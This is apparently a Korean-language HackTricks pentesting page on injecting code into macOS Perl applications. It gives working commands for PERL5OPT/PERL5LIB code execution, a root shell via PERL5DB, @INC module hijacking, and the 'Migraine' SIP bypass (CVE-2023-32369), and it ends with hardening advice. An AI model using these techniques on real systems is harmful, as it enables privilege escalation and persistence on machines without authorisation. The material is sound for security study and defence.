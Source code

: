 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## `PERL5OPT` 및 `PERL5LIB` 환경 변수를 통한 방법

환경 변수 **`PERL5OPT`**를 사용하면 **Perl**이 인터프리터가 시작될 때 임의의 명령을 실행하도록 할 수 있습니다(대상 스크립트의 첫 번째 줄이 구문 분석되기 **전**에). 예를 들어, 이 스크립트를 생성합니다:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
이제 **환경 변수를 내보내고** **perl** 스크립트를 실행합니다:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
또 다른 옵션은 Perl 모듈을 만드는 것입니다 (예: `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
그런 다음 env 변수를 사용하여 모듈이 자동으로 위치하고 로드되도록 합니다:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### 다른 흥미로운 환경 변수

* **`PERL5DB`** – 인터프리터가 **`-d`** (디버거) 플래그로 시작되면, `PERL5DB`의 내용이 디버거 컨텍스트 *내부*에서 Perl 코드로 실행됩니다. 특권 Perl 프로세스의 환경 **및** 명령줄 플래그를 모두 영향을 미칠 수 있다면 다음과 같은 작업을 수행할 수 있습니다:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # 스크립트를 실행하기 전에 셸을 드롭합니다
```

* **`PERL5SHELL`** – Windows에서 이 변수는 Perl이 셸을 생성해야 할 때 사용할 셸 실행 파일을 제어합니다. macOS에서는 관련이 없기 때문에 완전성을 위해 여기 언급됩니다.

`PERL5DB`는 `-d` 스위치를 요구하지만, 이 플래그가 활성화된 상태로 *root*로 실행되는 유지 관리 또는 설치 스크립트를 찾는 것은 일반적이며, 이 변수는 유효한 상승 벡터가 됩니다.

## 의존성을 통한 (@INC 남용)

Perl이 검색할 포함 경로 (**`@INC`**)를 나열하는 것은 다음을 실행하여 가능합니다:
```bash
perl -e 'print join("\n", @INC)'
```
macOS 13/14에서의 일반적인 출력은 다음과 같습니다:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
일부 반환된 폴더는 존재하지 않지만, **`/Library/Perl/5.30`**는 존재하며 SIP에 의해 보호되지 않고 SIP로 보호된 폴더보다 *앞에* 있습니다. 따라서, *root*로 쓸 수 있다면 악성 모듈(예: `File/Basename.pm`)을 드롭할 수 있으며, 이는 해당 모듈을 가져오는 모든 권한 있는 스크립트에 의해 *우선적으로* 로드됩니다.

> [!WARNING]
> `/Library/Perl` 내부에 쓰기 위해서는 여전히 **root** 권한이 필요하며, macOS는 쓰기 작업을 수행하는 프로세스에 대해 *전체 디스크 접근*을 요청하는 **TCC** 프롬프트를 표시합니다.

예를 들어, 스크립트가 **`use File::Basename;`**를 가져오고 있다면, 공격자가 제어하는 코드를 포함하는 `/Library/Perl/5.30/File/Basename.pm`을 생성하는 것이 가능할 것입니다.

## Migration Assistant를 통한 SIP 우회 (CVE-2023-32369 “Migraine”)

2023년 5월, Microsoft는 **CVE-2023-32369**를 공개했으며, 이는 **Migraine**이라는 별명을 가진 포스트 익스플로잇 기술로, *root* 공격자가 **시스템 무결성 보호(SIP)**를 완전히 **우회**할 수 있게 해줍니다. 취약한 구성 요소는 **`systemmigrationd`**로, **`com.apple.rootless.install.heritable`** 권한을 가진 데몬입니다. 이 데몬에 의해 생성된 모든 자식 프로세스는 해당 권한을 상속받아 SIP 제한 외부에서 실행됩니다.

연구자들이 확인한 자식 프로세스 중에는 Apple 서명 인터프리터가 포함되어 있습니다:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Perl은 `PERL5OPT`를 존중하고 (Bash는 `BASH_ENV`를 존중하므로), 데몬의 *환경*을 오염시키는 것만으로도 SIP가 없는 컨텍스트에서 임의 실행을 얻기에 충분합니다:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
`migrateLocalKDC`가 실행되면, `/usr/bin/perl`이 악성 `PERL5OPT`와 함께 시작되고 `/private/tmp/migraine.sh`를 실행합니다 *SIP가 다시 활성화되기 전에*. 그 스크립트에서 예를 들어, **`/System/Library/LaunchDaemons`** 안에 페이로드를 복사하거나 `com.apple.rootless` 확장 속성을 할당하여 파일을 **삭제할 수 없게** 만들 수 있습니다.

Apple은 macOS **Ventura 13.4**, **Monterey 12.6.6** 및 **Big Sur 11.7.7**에서 이 문제를 수정했지만, 이전 버전이나 패치되지 않은 시스템은 여전히 취약합니다.

## Hardening recommendations

1. **위험한 변수 지우기** – 권한이 있는 launchdaemons 또는 cron 작업은 깨끗한 환경에서 시작해야 합니다 (`launchctl unsetenv PERL5OPT`, `env -i` 등).
2. **필요하지 않는 한 root로 인터프리터 실행 피하기**. 컴파일된 바이너리를 사용하거나 권한을 조기에 낮추십시오.
3. **`-T` (taint mode)로 공급업체 스크립트 사용하기**. 이렇게 하면 Perl이 taint 검사가 활성화될 때 `PERL5OPT` 및 기타 안전하지 않은 스위치를 무시합니다.
4. **macOS를 최신 상태로 유지하기** – “Migraine”은 현재 릴리스에서 완전히 패치되었습니다.

## References

- Microsoft Security Blog – “New macOS vulnerability, Migraine, could bypass System Integrity Protection” (CVE-2023-32369), May 30 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) research”, May 2025.

{{#include ../../../banners/hacktricks-training.md}}
